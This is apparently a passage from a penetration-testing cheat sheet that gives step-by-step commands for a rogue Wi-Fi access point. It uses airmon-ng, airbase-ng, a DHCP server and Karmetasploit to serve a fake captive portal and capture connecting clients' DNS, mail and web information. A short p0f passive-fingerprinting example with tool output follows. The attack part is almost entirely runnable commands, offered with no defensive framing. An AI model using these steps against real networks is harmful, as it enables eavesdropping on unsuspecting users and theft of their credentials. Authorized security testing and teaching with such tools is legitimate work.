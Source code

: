 ```

```
# Locate interface
root@RoseSecurity:~# airmon-ng

# Start monitoring
root@RoseSecurity:~# airmon-ng start wlan0

# Start AP
root@RoseSecurity:~# airbase-ng -P -C 30 -e "Fake AP" -v wlan0mon

# Assign IP to interface
root@RoseSecurity:~# ifconfig at0 up 10.0.0.1 netmask 255.255.255.0
```

Before we run our DHCP server, we need to create a lease database, then we can get it to listening on our new interface.

```
root@RoseSecurity:~# touch /var/lib/dhcp/dhcpd.leases
root@RoseSecurity:~# dhcpd -cf /etc/dhcp/dhcpd.conf at0
```

Run Karmetasploit:

```
root@RoseSecurity:~# msfconsole -q -r karma.rc_.txt
```

At this point, we are up and running. All that is required now is for a client to connect to the fake access point. When they connect, they will see a fake ‘captive portal’ style screen regardless of what website they try to connect to. You can look through your output, and see that a wide number of different servers are started. From DNS, POP3, IMAP, to various HTTP servers, we have a wide net now cast to capture various bits of information.

## Passive Fingerprinting with P0f:

Use interface eth0 (-i eth0) in promiscuous mode (-p), saving the results to a file (-o /tmp/p0f.log):

```
root@RoseSecurity:~# p0f -i eth0 -p -o /tmp/p0f.log

-- p0f 3.09b by Michal Zalewski <lcamtuf@coredump.cx> ---

[+] Closed 1 file descriptor.
[+] Loaded 322 signatures from '/etc/p0f/p0f.fp'.
[+] Intercepting traffic on interface 'eth0'.
[+] Default packet filtering configured [+VLAN].
[+] Log file '/tmp/p0f.log' opened for writing.
[+] Entered main event loop.
